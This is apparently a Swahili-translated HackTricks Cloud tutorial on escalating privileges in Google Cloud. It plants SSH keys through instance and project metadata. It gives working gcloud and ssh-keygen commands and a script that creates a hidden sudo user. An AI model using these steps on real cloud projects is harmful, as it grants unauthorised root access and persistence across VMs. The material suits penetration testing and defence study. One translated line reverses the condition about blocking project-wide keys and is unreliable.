 # GCP - Ongeza Metadata ya SSH ya Desturi

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Kubadilisha metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Kubadilisha metadata kwenye kifaa kinaweza kusababisha **hatari kubwa ya usalama ikiwa muhusika anapata idhini inayohitajika**.

### **Kuingiza Vipindi vya SSH kwenye Metadata ya Desturi**

Kwenye GCP, **mifumo ya Linux** mara nyingi hutekeleza skripti kutoka kwa [Mazingira ya Mgeni wa Linux wa Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Sehemu muhimu ya hii ni [daemon ya akaunti](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), ambayo imeundwa kwa ajili ya **kuangalia mara kwa mara** kwenye kifaa cha metadata kwa **mabadiliko kwenye funguo za umma za SSH zilizoidhinishwa**.

Kwa hivyo, ikiwa muhusika anaweza kubadilisha metadata ya desturi, anaweza kufanya daemon ipate funguo mpya za umma, ambazo zitashughulikiwa na **kuingizwa kwenye mfumo wa ndani**. Funguo itaongezwa kwenye faili ya `~/.ssh/authorized_keys` ya **mtumiaji aliyopo au labda kuunda mtumiaji mpya na `sudo` privileges**, kulingana na muundo wa funguo. Na muhusika ataweza kudhoofisha mwenyeji.

### **Ongeza funguo ya SSH kwa mtumiaji aliye na mamlaka**

1. **Angalia Funguo za SSH Zilizopo kwenye Kifaa:**
- Tekeleza amri ya kuelezea kifaa na metadata yake ili kutambua funguo za SSH zilizopo. Sehemu inayofaa katika matokeo itakuwa chini ya `metadata`, kwa usahihi ufunguo wa `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Tilia maanani muundo wa funguo za SSH: jina la mtumiaji linatangulia funguo, likitenganishwa na mabano.

2. **Andaa Faili ya Maandishi kwa Metadata ya Funguo ya SSH:**
- Hifadhi maelezo ya majina ya mtumiaji na funguo zao za SSH zinazolingana kwenye faili ya maandishi iliyoitwa `meta.txt`. Hii ni muhimu kwa kuhifadhi funguo zilizopo wakati wa kuongeza mpya.

3. **Tengeneza Funguo Mpya ya SSH kwa Mtumiaji wa Lengo (`alice` katika mfano huu):**
- Tumia amri ya `ssh-keygen` kutengeneza funguo mpya ya SSH, hakikisha kuwa uga wa maoni (`-C`) unalingana na jina la mtumiaji wa lengo.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Ongeza funguo ya umma mpya kwenye `meta.txt`, ikifanana na muundo uliopatikana kwenye metadata ya kifaa.

4. **Sasisha Metadata ya Funguo ya SSH ya Kifaa:**
- Tumia metadata iliyosasishwa ya funguo ya SSH kwenye kifaa kwa kutumia amri ya `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Fikia Kifaa Kwa Kutumia Funguo Mpya ya SSH:**
- Unganisha kifaa kwa SSH ukitumia funguo mpya, ukipata upatikanaji wa shell katika muktadha wa mtumiaji wa lengo (`alice` katika mfano huu).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Unda mtumiaji mpya mwenye mamlaka na ongeza funguo ya SSH**

Ikiwa hakuna mtumiaji wa kuvutia anapatikana, inawezekana kuunda mpya ambaye atapewa mamlaka ya `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Vyeo vya SSH kwa kiwango cha mradi <a href="#sshing-around" id="sshing-around"></a>

Inawezekana kupanua ufikiaji wa SSH kwa Mashine za Virtual (VMs) nyingi katika mazingira ya wingu kwa **kuomba vyeo vya SSH kwa kiwango cha mradi**. Mbinu hii inaruhusu ufikiaji wa SSH kwa kila kifaa ndani ya mradi ambao haujazuia wazi vyeo vya SSH kwa kiwango cha mradi. Hapa kuna mwongozo uliofupishwa:

1. **Tumia Vyeo vya SSH kwa Kiwango cha Mradi:**
- Tumia amri `gcloud compute project-info add-metadata` kuongeza vyeo vya SSH kutoka `meta.txt` kwenye metadata ya mradi. Hatua hii inahakikisha kuwa vyeo vya SSH vinatambuliwa kote kwenye VMs zote katika mradi, isipokuwa kama VM ina chaguo la "Block project-wide SSH keys" limezimwa.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH kuingia kwenye Vifaa Kwa Kutumia Vyeo vya Kiwango cha Mradi:**
- Kwa vyeo vya SSH kwa kiwango cha mradi vilivyowekwa, unaweza kuingia kwa SSH kwenye kifaa chochote ndani ya mradi. Vifaa ambavyo havizuiliwi na vyeo vya SSH kwa kiwango cha mradi vitakubali kyeo cha SSH, kutoa ufikiaji.
- Njia moja ya moja kwa moja ya kuingia kwa SSH kwenye kifaa ni kutumia amri `gcloud compute ssh [INSTANCE]`. Amri hii hutumia jina lako la sasa na vyeo vya SSH vilivyowekwa kwa kiwango cha mradi kujaribu ufikiaji.

# Marejeo
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
